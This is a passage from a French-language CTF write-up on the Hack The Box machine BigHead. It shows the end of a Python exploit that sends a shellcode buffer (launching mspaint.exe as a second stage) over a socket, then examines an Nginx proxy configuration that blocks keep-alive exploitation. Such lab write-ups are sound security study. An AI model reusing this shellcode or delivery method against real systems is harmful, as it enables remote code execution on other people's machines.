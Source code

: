 ```python
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d"
buf += b"\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
buf += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
buf += b"\xff\xd5"
buf += b"C:\\Windows\\system32\\mspaint.exe"
buf += b"\x00"

print("Sending second stage...")
sock.send(buf)
sock.close()
```

Et ça marche en local !  

Plus qu'à voir si on peut adapter ça pour les conditions du challenge. L'archive présente sur le *Github* contient différents fichiers de configuration *Nginx* sur lesquels on va devoir se pencher :)  

Ce qui nous intéresse le plus c'est ceci :  

```plain
location / {
    # Backend server to forward requests to/from
    proxy_pass          http://127.0.0.1:8008;
    proxy_cache_convert_head off;
    proxy_cache_key $scheme$proxy_host$request_uri$request_method;
    proxy_http_version  1.1;

    # adds gzip
    gzip_static on;
}
```

La documentation de Nginx n'est pas très parlante quand au fonctionnement interne de la directive *proxy\_pass* mais en fouillant un peu sur *StackOverflow* on voit que le comportement par défaut consiste à faire du buffering, du coup notre exploit tombe à l'eau car il n'y a pas de moyen de laisser ouverte la connexion entre le Nginx et le binaire vulnérable.  

On peut facilement reproduire l’environnement du CTF en récupérant [Nginx pour Windows](https://nginx.org/en/docs/windows.html) et en recopiant le *nginx.conf*.  

On peut voir ainsi que si on chaîne deux requêtes en keep-alive sur le *Nginx* (par exemple en Python avec le système de session du module requests) :  

![BigHead CTF Nginx Keep-Alive Wireshark capture](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/bighead_keep_alive.png)

Et bien malgré tout nos requêtes sont transformées en deux streams TCP différents et *Nginx* ajoute un entête *Connection: close*  
